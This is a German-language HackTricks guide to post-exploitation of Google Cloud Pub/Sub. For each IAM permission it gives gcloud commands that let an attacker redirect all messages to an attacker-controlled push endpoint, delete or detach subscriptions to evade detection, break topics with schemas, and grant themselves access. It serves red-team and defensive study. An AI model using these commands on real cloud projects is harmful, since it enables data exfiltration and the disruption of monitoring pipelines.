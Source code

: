 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Pub/Sub

Für weitere Informationen über Pub/Sub besuche die folgende Seite:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Veröffentliche eine Nachricht in einem Thema, nützlich, um **unerwartete Daten zu senden** und unerwartete Funktionen auszulösen oder Schwachstellen auszunutzen:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.\
Es ist möglich, ein Thema zu löschen, selbst wenn Abonnements daran angehängt sind.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen des Themas zu aktualisieren, um es zu stören, wie `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Geben Sie sich die Berechtigung, um einen der vorherigen Angriffe durchzuführen.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Erhalten Sie alle Nachrichten auf einem Webserver:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Erstellen Sie ein Abonnement und verwenden Sie es, um **Nachrichten abzurufen**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Das Löschen eines Abonnements** könnte nützlich sein, um ein Protokollverarbeitungssystem oder etwas Ähnliches zu stören:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen zu aktualisieren, damit Nachrichten an einem Ort gespeichert werden, auf den Sie zugreifen können (URL, Big Query-Tabelle, Bucket) oder um dies einfach zu stören.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Greifen Sie auf ein Schema zu einem Thema zu, sodass die Nachrichten es nicht erfüllen und das Thema daher gestört wird.\
Wenn es keine Schemas gibt, müssen Sie möglicherweise eines erstellen.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Das mag wie das Löschen eines Schemas aussehen, aber Sie werden in der Lage sein, Nachrichten zu senden, die nicht mit dem Schema übereinstimmen. Da das Schema jedoch gelöscht wird, wird keine Nachricht tatsächlich in das Thema eingehen. Das ist also **NUTZLOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Geben Sie sich die Berechtigungen, die erforderlich sind, um eine der zuvor kommentierten Angriffe durchzuführen.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dies wird einen Snapshot aller unbestätigten Nachrichten erstellen und sie wieder in das Abonnement zurücklegen. Für einen Angreifer nicht sehr nützlich, aber hier ist es:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
